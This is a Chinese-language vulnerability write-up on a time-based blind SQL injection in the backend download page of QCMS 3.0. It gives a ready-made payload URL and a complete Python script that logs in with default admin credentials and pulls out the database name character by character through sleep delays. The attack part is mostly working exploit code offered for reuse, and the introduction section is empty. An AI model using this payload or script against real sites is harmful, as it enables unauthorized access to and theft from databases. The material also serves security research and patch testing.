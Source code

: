 QCMS 3.0 sql注入漏洞
====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

在后台下载管理处

![](./resource/QCMS3.0sql注入漏洞/media/rId24.png)

构造payload

    http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23

这里直接附上简单脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests

    def getCookie():
        url = 'http://127.0.0.1/admin.php'
        data = {
            'username':'admin',
            'password':'admin'
        }

        session = requests.session()
        res = session.post(url, data)

        return requests.utils.dict_from_cookiejar(res.cookies)

    def getDatabase(url, arr, cookies):

        str = ''
        requests.session()

        for i in range(1, 11):
            for j in arr:
                data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
                # print(data)
                res = requests.get(url=data, cookies=cookies)
                # print(res.elapsed.total_seconds())
                if(res.elapsed.total_seconds() > 5):
                    str += j
                    print(str)
                    break
        print('database=' + str)


    if __name__ == '__main__':
        url = 'http://127.0.0.1/backend/down.html'
        arr = []

        for i in range(48, 123):
            arr.append(chr(i))

        cookies = getCookie()
        print(cookies)
        getDatabase(url, arr, cookies)

参考链接
--------

> https://xz.aliyun.com/t/7269
